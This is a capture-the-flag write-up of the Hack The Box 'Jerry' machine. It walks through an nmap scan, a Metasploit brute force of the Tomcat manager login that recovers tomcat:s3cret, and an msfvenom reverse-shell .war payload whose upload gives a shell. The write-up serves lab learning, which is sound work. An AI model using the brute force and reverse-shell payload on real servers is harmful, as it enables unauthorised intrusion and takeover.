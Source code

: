 ```yaml
---
title: HTB - Jerry writeup
date: 2023-04-02
categories: [ctf, htb, writeup]
tags: [ctf, htb, writeup]
author: cha0s
---
```

# Machine info
---
Name: Jerry
OS: Windows
Dificulty: Easy
[link](https://app.hackthebox.com/machines/144)

---

# Initial recon
---
As always i've started with nmap, and for my surprise, only a single port open

```bash
cha0s@vm:~/ctf/htb/jerry$ nmap -A -p- -T4 --min-rate=500 -Pn 10.10.10.95
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-02 11:19 -03
Nmap scan report for 10.10.10.95
Host is up (0.13s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 182.44 seconds
```

An apache tomcat instance, just like a "default installation"

![apache tomcat](/assets/img/jerry/Pasted%20image%2020240402125101.png)
_not the actual box screenshot cause i forgot to take it💀_
# Tomcat enumeration
---

Without further thinking, i fired metasploit and runned the `auxiliary/scanner/http/tomcat_mgr_login` module

![[/assets/img/jerry/Pasted image 20240402113416.png]]

After a few minutes of bruteforce we found:
	`tomcat:s3cret`
Now we have a login for tomcat's manager gui. 
# Exploitation
--- 
Now, we need to get a shell. Since we already inside tomcat webapp as an admin, we can abuse the upload feature to upload an malicious .war file that will allow us to get a reverse shell.

First we create a .war payload using msfvenom. Apart from looking at the machine info and knowing its a windows, we could simply go at the "show status", page and figure out it's a windows server 2012 machine.

To create the payload we use:
`msfvenom -p windows/meterpreter/reverse_tcp lhost=<your Tun0> lport=4444 -f war -o xp.war`
![[Pasted image 20240402114516.png]]

Note that i've unziped the .war, that's because we won't get a shell by simply uploading, we also need to run the malicious jsp

Then, we can upload it on tomcat manager gui

![[/assets/img/jerry/Pasted image 20240402114540.png]]

![[/assets/img/jerry/Pasted image 20240402114551.png]]
_file uploaded successfully!_

Then visit the page with the file we early extracted

![[/assets/img/jerry/Pasted image 20240402114612.png]]

And, we get a shell!!!
 
![[/assets/img/jerry/Pasted image 20240402114657.png]]
![[/assets/img/jerry/Pasted image 20240402114720.png]]
# Post exploitation
---

After that we start to gather some information about the machine and for my surprise...

![[/assets/img/jerry/Pasted image 20240402114814.png]]

We are already the highest windows privileged account.

So i head to the administrator desktop (default location for flags)

![[/assets/img/jerry/Pasted image 20240402114857.png]]

And enjoy my 2 flags for the price of one 😋

---

Hope you enjoyed the writeup.
Never stop hacking! 👨‍💻